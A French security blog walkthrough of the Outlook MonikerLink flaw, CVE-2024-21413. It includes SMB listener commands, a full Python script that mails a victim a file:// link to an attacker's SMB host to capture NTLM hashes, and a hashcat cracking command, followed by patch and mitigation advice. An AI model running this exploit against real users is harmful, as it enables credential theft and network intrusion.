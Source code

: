 # Compromettre Microsoft Outlook via l'ouverture d'un simple Email  : CVE-2024-21413 (Exécution de code arbitraire)



## Introduction

CVE-2024-21413 baptisée MonikerLink est une vulnérabilité critique qui permet à un attaquant non authentifié de divulguer le condensat (hash) NTLM local et potentiellement une exécution de code arbitraire à distance. Son exploitation nécessite une intervention de l'utilisateur.

Avec un niveau de criticité de 9,8 sur (CVSS), elle représente l'une des menaces les plus sérieuses récemment révélées.  Cette vulnérabilité ouvre la porte à des cyberattaques sophistiquées, allant du vol de données au déploiement de rançongiciels à travers le réseau d'une organisation.

La liste des versions vulnérables :

* Microsoft Office 2016
* Microsoft Office LTSC 2021
* Microsoft 365 Apps for Enterprise
* Microsoft Office 2019

## Comment ça marche ?

La CVE-2024-21413 utilise le "Outlook Preview Pane"  pour lancer des attaques. Normalement, Microsoft Office utilise la vue protégée (Protected View) pour empêcher les documents potentiellement dangereux d'exécuter du code sans l'accord de l'utilisateur. Mais cette faille contourne ces protections, permettant au code malveillant de s'exécuter dès qu'on ouvre le mail en aperçu.

## Exploitation de la vulnérabilité CVE-2024-21413

Un POC disponible sur (https://github.com/CMNatic/CVE-2024-21413)  décrit les étapes pour exploiter CVE-2024-21413, en utilisant l'authentification SMTP pour envoyer un e-mail qui contourne les vérifications de sécurité courantes.

Le script nécessite des paramètres tels que les détails du serveur SMTP, les adresses e-mail de l'expéditeur et du destinataire, ainsi que l'URL malveillante

Cette démonstration illustre concrètement comment les attaquants pourraient exploiter cette vulnérabilité pour exécuter du code à distance sur le système d'une victime sans éveiller de soupçons.

### Etape 1 : Mise en place d'un listener

D'abord on lance un SMB Listener avec la commande impacket-smbserver. On peut aussi lancer un listener avec la commande responder en spécifiant l'interface d'écoute.

```
impacket-smbserver -smb2support -ip 0.0.0.0 test /tmp 
```
ou 
```
responder -I eth0
```

![Lance un listener](/images/step1_outlook-rce.png)



### Etape 2 : Envoi initial

On envoie l'Email en utilisant le serveur SMTP spécifié et en ciblant le destinataire avec un message élaboré contenant le lien malveillant.

* attacker@monikerlink.thm est le mail de l'attaquant
* victim@monikerlink.thm est le mail de la victiome

Le code exploit.py
```
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://192.168.1.6/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('ZalePentester', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('monikerlink.thm', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```


![Envoi email](/images/step2_outlook-rce.png)

### Etape 3 : Reception du mail par la victime

La victime reçoit l'e-mail dans Outlook sans aucun avertissement ni restriction, démontrant le contournement du Protected View .

![Reception email](/images/step3_outlook-rce.png)

### Etape 4 : Ouverture du lien malveillant par la victime

Lorsque la victime clique sur le lien , l'attaquant intercepte les identifiants NTLM. Ce qui constitue une violation de sécurité critique pouvant conduire à une compromission réseau totale.

![Interception Hash](/images/step4_outlook-rce.png)


### Etape 5 : Interception des informations NTLM

Après avoir recupéré le hash, on peut cracker le mot de passe en utilisant un dictionnaire de mot de passe.
```
hashcat -a 0 -m 5600 hash.txt rockyou.txt -o cracked.txt -O
```
![Interception Hash](/images/step5_outlook-rce.png)

Avec un peu de chance, on peut cracker le mot de passe d'ou la necessité d'avoir un très bon dictionnaire.

![Interception Hash](/images/step6_outlook-rce.png)


## Démonstration

Dans cette vidéo, nous allons faire la démonstration d'un exemple d'exploitation réussie.

{{< youtube Qvooiddg9DM >}}


## Comment la CVE-2024-21413 peut mener à l'exécution de code arbitraire à distance ?
Le Chercheur @xaitax  a publié une vidéo démontrant comment cette vulnérabilité pourrait mener à une exécution de code arbitraire à distance. L'exploit n'est pas encore disponible au public. 

{{< tweet 1759318090788037093 >}}

## Recommandations

Les mesures suivantes sont également recommandées pour renforcer la sécurité :

* Mise à Jour Régulière : Assurez-vous que votre suite Microsoft Office est à jour avec les derniers correctifs de sécurité.

* Sensibiliser les Utilisateurs : Informez les utilisateurs sur les risques des e-mails de phishing et l'importance de la prudence lorsqu'ils traitent des e-mails inattendus.

* Mettre en Place des Solutions de Sécurité Avancées : Utilisez des solutions de sécurité e-mail qui offrent des capacités de protection avancées contre les menaces, y compris l'analyse des pièces jointes et des liens des e-mails pour détecter les contenus malveillants.

## Correctifs

Les corrections sont disponibles dans l'une de ces versions de Microsoft Office :

* Office 2021 : Version 2401 (Build 17231.20236)
* Office LTSC 2021 : Version 2108 (Build 14332.20637)
* Office 2019 : Version 2401 (Build 17231.20236)
* Office 2019 (Volume Licensed) : Version 1808 (Build 10407.20032)
* Office 2016 : Version 2401 (Build 17231.20236)

Pour Microsoft 365 Apps, voici la liste des versions avec correctifs :

* Current Channel : Version 2401 (Build 17231.20236)
* Monthly Enterprise Channel : Version 2312 (Build 17126.20190)
* Monthly Enterprise Channel : Version 2311 (Build 17029.20178)
* Semi-Annual Enterprise Channel (Preview) : Version 2308 (Build 16731.20550)
* Semi-Annual Enterprise Channel : Version 2308 (Build 16731.20550)
* Semi-Annual Enterprise Channel : Version 2302 (Build 16130.20916)
* Semi-Annual Enterprise Channel : Version 2208 (Build 15601.20870)

Références :

 * https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-21413

 * https://github.com/CMNatic/CVE-2024-21413

 * https://github.com/duy-31/CVE-2024-21413

 * https://twitter.com/xaitax/status/1759318090788037093

